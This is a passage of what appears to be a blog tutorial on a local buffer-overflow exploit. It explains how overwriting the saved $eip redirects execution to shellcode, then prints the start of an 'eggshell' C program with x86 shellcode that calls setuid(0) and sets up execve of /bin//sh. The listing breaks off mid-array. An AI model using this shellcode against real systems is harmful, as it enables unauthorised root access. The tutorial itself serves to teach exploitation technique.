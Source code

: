 ** 

Now we can control the flow of the program. What we want to do is overwrite $eip
  
with an address of our choice. Pointing it to something a bit more useful,
  
like some shellcode to drop us a shell. Since this is just a local exploit
  
and the buffer is not that big to store a shell we can write a simple eggshell
  
to load into memory.

Below is a small eggshell.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="c" style="font-family:monospace;"><span style="color: #339933;">-------------------------------</span>eggshell.<span style="color: #202020;">c</span><span style="color: #339933;">-------------------------------</span>
<span style="color: #339933;">#include stdio.h //dont forget brackets again</span>
<span style="color: #339933;">#define NOP 0x90 /* nops , we want to land here */</span>
&nbsp;
<span style="color: #993333;">char</span> shellcode<span style="color: #009900;">&#91;</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x6a</span><span style="color: #660099; font-weight: bold;">\x17</span>"</span>                      <span style="color: #666666; font-style: italic;">// push $0x17</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x58</span>"</span>                        <span style="color: #666666; font-style: italic;">// pop  %eax</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x31</span><span style="color: #660099; font-weight: bold;">\xdb</span>"</span>                    <span style="color: #666666; font-style: italic;">// xor  %ebx, %ebx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\xcd</span><span style="color: #660099; font-weight: bold;">\x80</span>"</span>                    <span style="color: #666666; font-style: italic;">// int  $0x80</span>
&nbsp;
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x31</span><span style="color: #660099; font-weight: bold;">\xd2</span>"</span>                    <span style="color: #666666; font-style: italic;">// xor  %edx, %edx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x6a</span><span style="color: #660099; font-weight: bold;">\x0b</span>"</span>                    <span style="color: #666666; font-style: italic;">// push $0xb</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x58</span>"</span>                        <span style="color: #666666; font-style: italic;">// pop  %eax</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x52</span>"</span>                        <span style="color: #666666; font-style: italic;">// push %edx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x68</span><span style="color: #660099; font-weight: bold;">\x2f</span><span style="color: #660099; font-weight: bold;">\x2f</span><span style="color: #660099; font-weight: bold;">\x73</span><span style="color: #660099; font-weight: bold;">\x68</span>"</span>        <span style="color: #666666; font-style: italic;">// push $0x68732f2f</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x68</span><span style="color: #660099; font-weight: bold;">\x2f</span><span style="color: #660099; font-weight: bold;">\x62</span><span style="color: #660099; font-weight: bold;">\x69</span><span style="color: #660099; font-weight: bold;">\x6e</span>"</span>        <span style="color: #666666; font-style: italic;">// push $0x6e69622f</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x89</span><span style="color: #660099; font-weight: bold;">\xe3</span>"</span>                    <span style="color: #666666; font-style: italic;">// mov  %esp, %ebx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x52</span>"</span>                        <span style="color: #666666; font-style: italic;">// push %edx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x53</span>"</span>                        <span style="color: #666666; font-style: italic;">// push %ebx</span>